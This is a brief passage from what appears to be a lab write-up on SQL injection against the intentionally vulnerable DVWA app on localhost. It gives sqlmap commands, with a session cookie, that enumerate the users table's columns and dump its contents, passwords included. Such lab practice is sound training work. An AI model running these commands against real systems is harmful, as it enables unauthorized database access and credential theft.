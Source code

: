 ## 2. List information of the user:
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=r206ch272ukcgtfpi24s2vlnk6; security=low" -D dvwa -T users --columns
``` 
-Output screenshot:
<img width="500" alt="Screenshot" src="./img/get_user.png"><br>

## 3. Get the data from the table:
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=r206ch272ukcgtfpi24s2vlnk6; security=low" -D dvwa -T users --dump
``` 

-Output screenshot:
<img width="500" alt="Screenshot" src="./img/list_password.png"><br>
